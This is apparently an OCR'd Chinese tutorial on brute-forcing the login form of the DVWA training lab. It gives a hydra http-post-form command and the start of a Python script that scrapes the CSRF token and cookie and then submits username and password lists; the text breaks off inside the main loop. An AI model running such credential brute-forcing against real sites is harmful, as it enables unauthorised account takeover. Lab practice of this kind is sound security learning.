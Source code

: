 分析数据包，得到下面的破解命令  

hydra -L user.txt -P passwd.txt -t 3 -o http_post.txt -vV 10.96.10.183 http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login&user_token=dd6bbcc4f4672afe99f15b1d2c249ea5:S=index.php"

#前面那些参数就不说了，主要说一下引号里面的数据 /login.php 代表请求目录，用：分隔参数，^USER^ 和 ^PASS^ 代表是攻击载荷，S 等于的是密码正确时返回应用的关键字符串

但是新版的 DVWA 采用了 token 的验证方式，每次登录的 token 都是不一样的，所以不能用 hydra 来破解。目前，大多数网站登录都采用了 token 验证，所以，都不能使用 Hydra 来破解。

我们可以自己写一个 python 脚本来破解。 

```
# -*- coding: utf-8 -*-
"""
Created on Sat Nov 24 20:42:01 2018
@author: 小谢
"""
import urllib
import requests
from bs4 import BeautifulSoup
##第一步，先访问 http://127.0.0.1/login.php页面，获得服务器返回的cookie和token
def get_cookie_token():
    headers={'Host':'127.0.0.1',
             'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
             'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
             'Accept-Lanuage':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
             'Connection':'keep-alive',
             'Upgrade-Insecure-Requests':'1'}
    res=requests.get("http://127.0.0.1/login.php",headers=headers)
    cookies=res.cookies
    a=[(';'.join(['='.join(item)for item in cookies.items()]))]   ## a为列表，存储cookie和token
    html=res.text
    soup=BeautifulSoup(html,"html.parser")
    token=soup.form.contents[3]['value']
    a.append(token)
    return a

##第二步模拟登陆

def Login(a,username,password):    #a是包含了cookie和token的列表
    headers={'Host':'127.0.0.1',
             'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
             'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
             'Accept-Lanuage':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
             'Connection':'keep-alive',
             'Content-Length':'88',
             'Content-Type':'application/x-www-form-urlencoded',
             'Upgrade-Insecure-Requests':'1',
             'Cookie':a[0],
             'Referer':'http://127.0.0.1/login.php'}
    values={'username':username,
            'password':password,
            'Login':'Login',
            'user_token':a[1]
        }
    data=urllib.parse.urlencode(values)
    resp=requests.post("http://127.0.0.1/login.php",data=data,headers=headers)
    return 
#重定向到index.php
def main():
    with open("user.txt",'r') as f:
        users=f.readlines()
        for user in users:
```
